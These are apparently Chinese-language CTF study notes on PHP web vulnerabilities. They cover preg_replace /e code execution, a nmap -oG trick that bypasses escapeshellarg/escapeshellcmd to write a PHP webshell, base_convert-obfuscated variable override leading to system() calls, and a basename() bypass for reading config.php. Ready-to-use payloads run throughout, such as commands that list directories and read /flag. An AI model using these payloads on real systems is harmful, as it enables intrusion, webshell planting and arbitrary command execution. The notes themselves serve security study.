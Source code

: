 ## **preg_replace函数代码执行**
preg_replace接收三个参数，$pat是正则表达式为/e时。
第二个参数是代码，第三个参数被匹配，则第二个参数会代码执行。
第三个参数$sub如果${}包裹里面会被代码执行
```
preg_replace($pat,$rep,$sub);

?pat=/abc/e&rep=system('ls')&sub=abc
```


^
正则替换函数，第三个参数代码执行情况：
```
function getFlag(){
    @eval($_GET['cmd']);
}

//将每个get传参的参数和参数值进行匹配
foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
```



```
如果传参
参数 "/([A-Z])/"; // 匹配大写字母的正则表达式
值 "Hello World"

preg_replace 函数来将字符串中的大写字母转换为小写字母：
这段代码执行后会输出 "hello world"
```
这里的漏洞出在preg_replace /e 模式下。
值用${}包裹后会代码执行。
```
比如我们传入  ?.*={${phpinfo()}}
原句：preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str); 
就变成preg_replace('/(' .* ')/ei','strtolower("\\1")',{${phpinfo()}});

又因为$_GET传入首字母是非法字符时候会把 .（点号）改成下划线，因此得将\.*换成\S*

所以payload：?\S*=${getFlag()}&cmd=system('ls /'); 
${getFlag()}不是{${getFlag()}}
此时getFlag()会被代码执行，调用函数，即可使用cmd。
```
```
如果
`/\{\?([^}]+)\}/e` 这一内容，正则匹配的内容也就是 `{?(任意内容)}` ，
payload： catid={?(phpinfo())}
```

^
## **过滤函数**
```
$host = $_GET['host'];
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
```
利用特性，和namp参数写文件webshell
```
?host=' <?php @eval($_POST["cmd"]);?> -oG test.php '
或直接读
?host=' <?php echo `cat /flag`;?> -oG test.php '
```



^
## **进制转换函数**
```
base_convert(37907361743,10,36) = "hex2bin"

hex2bin(5f 47 45 54) = "_GET"

dechex(1598506324) =  "5f 47 45 54"

_GET = base_convert(37907361743,10,36)(dechex(1598506324))

变量覆盖
/?c=$p=base_convert(37907361743,10,36)(dechex(1598506324));($$p){pi}(($$p){abs})&pi=system&abs=cat /flag
```


^
^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


